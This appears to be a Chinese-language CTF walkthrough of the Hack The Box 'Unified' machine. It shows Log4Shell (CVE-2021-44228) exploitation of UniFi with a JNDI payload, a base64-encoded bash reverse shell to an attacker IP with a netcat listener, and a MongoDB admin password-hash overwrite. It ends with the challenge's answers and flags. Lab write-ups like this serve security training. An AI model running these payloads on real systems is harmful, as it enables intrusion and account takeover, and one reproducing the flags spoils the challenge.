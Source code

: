 ```yaml
---
title: Hack the box Unified题解
tags:
  - HTB
  - 渗透测试
category: 靶场&靶机
permalink: /archives/35769/
published: 2023-04-03 11:32:28
---
```


> 打这个靶机的时候也是断断续续的，所以里面的目标IP前后对应不上，但是方法都是一样的。

 # 扫端口

```shell
nmap -sC -sV 10.129.96.149
```

![image-20230404171520202](./images/image-20230404171520202.png)

访问8080端口重定向到了8443

看到是`unifi6.4.54`版本的，结合官方给的WP知道这个版本有一个CVE，可以以此为出发点进行攻击

# CVE-2021-44228的利用

## 验证漏洞存在

先验证是不是存在这个漏洞

1. 抓包，因为是`https`的站，所以要对`burpsuite`进行一些设置[Burp Suite抓HTTPS数据包教程](https://blog.csdn.net/zyw_anquan/article/details/47904495)

![image-20230404175013011](./images/image-20230404175013011.png)

然后根据官方的WP，需要把remember的值改成`${jndi:ldap://Tun 0的IP/o=tomcat}`

验证存在

![image-20230404214952373](./images/image-20230404214952373.png)

## 实施攻击

### 漏洞利用环境搭建

> 更新&&安装环境
>
> sudo apt update
>
> sudo apt install openjdk-11-jdk -y
>
> sudo apt-get install maven
>
> 安装工具
>
> git clone https://github.com/veracode-research/rogue-jndi
>
> cd rogue-jndi
>
> mvn package

编译成功

![image-20230404222733175](./images/image-20230404222733175.png)

### 开始攻击

首先对`payload`进行`base64`编码，以防止出现其他的编码问题

```shell
echo "/bin/bash -c '/bin/bash -i >&/dev/tcp/10.10.14.149/4444 0>&1'" | base64
```

![image-20230404223238197](./images/image-20230404223238197.png)

运行RogueJndi-1.1.jar

```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNDkvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.149"
```

并监听4444端口

```shell
nc -lnvp 4444
```

> 第一步运行监听命令
>
> 第二步运行`RogueJndi-1.1.jar`
>
> 第三步在`remember`的值改为`${jndi:ldap://Tun 0的IP:1389/o=tomcat}`
>
> 第四步点击`Send`
>
> 然后出现红色和蓝色的长线就代表攻击成功了
>
> 但是黄色的长线第一次运行时是不会出现的，要运行`script /dev/null -c bash`切换成交互式shell才会出现

![image-20230404223823350](./images/image-20230404223823350.png)

## 信息收集

### MongoDB数据库

任务八问`MongoDB`跑在哪个端口上，用命令查看，发现是在27117端口上

```shell
ps aux | grep mongo
```

![image-20230404224950182](./images/image-20230404224950182.png)

任务九又问`MongoDB`的默认数据库名称是什么官方的WP里面说了是`ace`当然也能百度到

然后就是使用`db.admin.find()`方法检索`ace`数据库中的所有文档，并将结果传递给`forEach`方法

```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![image-20230404225908450](./images/image-20230404225908450.png)

可以看到里面第一个就是`administrator`用户，密码`hash`值保存在`x_shadow`变量中，但是这个值并不能被任何的密码工具破解。那就换个思路，不能破解，那就替换，WP中提到可以用`mkpasswd`命令去实现加密一个新的密码

> 原密码前面有$6$，特征符，代表使用的sha-512进行的加密，所以我们也要同样的方式进行加密新密码
>
> > SHA-512的科普：
> >
> > SHA-512 算法的安全性基于其数学原理和算法复杂度。由于它的输出长度很长，因此很难通过暴力攻击等方法破解。它是目前最常用的哈希算法之一，也被广泛应用于数字签名、密码学加密和数据完整性验证等领域。

![image-20230404230727942](./images/image-20230404230727942.png)

### 更新密码

```shell
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$W8lv9ywfFDfMVM8a$CPn2fYW3L2rlWhKQy8kuef8Vs/SHgwfwhr18ZzJ/K3OMWZeNmMrpoAaranjl/q3.7K3VYZHBPdp2EVnQB3Jq00"}})'
```

### 登录后台

用更新了的密码成功登录后台

![image-20230404231823711](./images/image-20230404231823711.png)

### 找ssh密码

> 点击那个齿轮图标，然后点击Site，滑到页面最底部看到ssh的密码，点那个眼睛可以看到密码

![image-20230404232536565](./images/image-20230404232536565.png)

### ssh连接

> 到这就完事了，`user.txt`在`/home/michael`目录下

![image-20230404232956730](./images/image-20230404232956730.png)

# 答案

>1. 22,6789,8080,8443
>2. UniFi Network
>3. 6.4.54
>4. CVE-2021-44228
>5. ldap
>6. tcpdump
>7. 389
>8. 27117
>9. ace
>10. db.admin.find()
>11. db.admin.update()
>12. NotACrackablePassword4U2022
>13. 6ced1a6a89e666c0620cdb10262ba127
>14. e50bc93c75b634e4b272d2f771c33681

# 参考博客

- [HackTheBox - Unified](https://blog.csdn.net/qq_45862635/article/details/125350250)

- [hack the box靶场unified靶机](https://blog.csdn.net/zr1213159840/article/details/123697698)
